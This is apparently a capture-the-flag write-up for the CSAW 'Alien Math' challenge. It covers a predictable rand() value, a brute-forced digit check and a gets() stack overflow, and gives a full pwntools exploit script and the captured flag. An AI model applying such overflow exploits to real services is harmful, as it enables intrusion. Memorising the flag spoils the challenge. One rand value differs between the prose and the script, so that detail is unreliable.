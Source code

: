 # Alien Math

> Brush off your Flirbgarple textbooks!
>
> nc pwn.chal.csaw.io 5004

We are given an executable.
Let's open it in Ghidra.

The challenge is composed of several questions that we must pass.
We also see a `print_flag` function that prints the flag.

In the following we will examine each question one by one.

## First question

The disassembled code given by Ghidra for this question is as follows:

```c

undefined8 main(void)

{
  int iVar1;
  undefined local_38 [36];
  int local_14;
  long local_10;
  
  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(&DAT_0040220b,&local_14);
  iVar1 = rand();
  local_10 = (long)iVar1;
  if (local_10 == (long)local_14) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402247,local_38);
    second_question(local_38);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

So here we get the line `iVar1 = rand();` and we need to enter the same number.
However, `rand` is pseudorandom, and here `srand` is not initialized so it will actually always return the same value.

By running our version of the program using `gdb` we know it is 0x6b8b456.

## Second question

For the second question, we can input a string of 36 characters. It is then processed with this code:

```c

void second_question(char *param_1)

{
  char cVar1;
  int iVar2;
  size_t n;
  ulong uVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  int i;
  
  i = 0;
  while( true ) {
    uVar3 = SEXT48(i);
    n = strlen(param_1);
    if (n - 1 <= uVar3) {
      local_38 = 0x3436303439353737;
      local_30 = 0x3332333535323538;
      local_28 = 0x353232393232;
      n = strlen((char *)&local_38);
      iVar2 = strncmp((char *)&local_38,param_1,n);
      if (iVar2 == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((param_1[i] < '0') || ('9' < param_1[i])) break;
    cVar1 = param_1[(long)i + 1];
    iVar2 = second_question_function
                      ((ulong)(uint)(int)param_1[i],(ulong)(uint)(param_1[i] + i),
                       (ulong)(uint)(param_1[i] + i));
    iVar2 = (int)cVar1 + -0x30 + iVar2;
    param_1[(long)i + 1] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
    i = i + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}
```

Basically, our input should be numbers (see `if ((param_1[i] < '0') || ('9' < param_1[i])) break;`).
Those numbers are transformed, and we pass the question if in the end our transformed input is equal to `local_38` as defined above.

Let's have a closer look at the transformation: if we call `T` the byte string entered, then for `i = 1 to n-1`, the following transformation occurs:
```c
T[i+1] += (T[i+1] + (second_question_function(T[i], T[i]+i)))%10
```

The following Python code brute forces the string character by character to find a valid input.

```python
goal = "7759406485255323229225"

def modify(x, y, i):
    b = ctypes.c_uint((x*0x30 + (x+i)*0xb - 4)).value % 10
    b += y
    return b % 10

print(7, end="")
current = 7
for i in range(21):
    g = int(goal[i+1])
    for next in range(10):
        if modify(current, next, i) == g:
            print(next, end="")
            current = g
            break
```

Correct input: `7856445899213065428791`.

## Final question

```c

void final_question(void)

{
  undefined8 local_18;
  undefined8 local_10;
  
  local_18 = 0;
  local_10 = 0;
  puts(
      "How long does it take for a toblob of energy to be transferred between two quantum entangledsalwzoblrs?"
      );
  fflush(stdout);
  getchar();
  gets((char *)&local_18);
  return;
}
```

This one is a simple buffer overflow where we overflow the buffer to reach the flag function.

Complete exploit script:

```python
from pwn import *

PRINT_FLAG = 0x04014fb

sh = remote("pwn.chal.csaw.io", 5004)
sh.recvuntil("zopnol?")
sh.sendline(str(0x6b8b4567))
sh.recvuntil("qorbnorbf?")
sh.sendline(str(7856445899213065428791))
sh.recvuntil("salwzoblrs?")
sh.sendline(b" "*24 + p32(PRINT_FLAG))
sh.interactive()
```

Flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`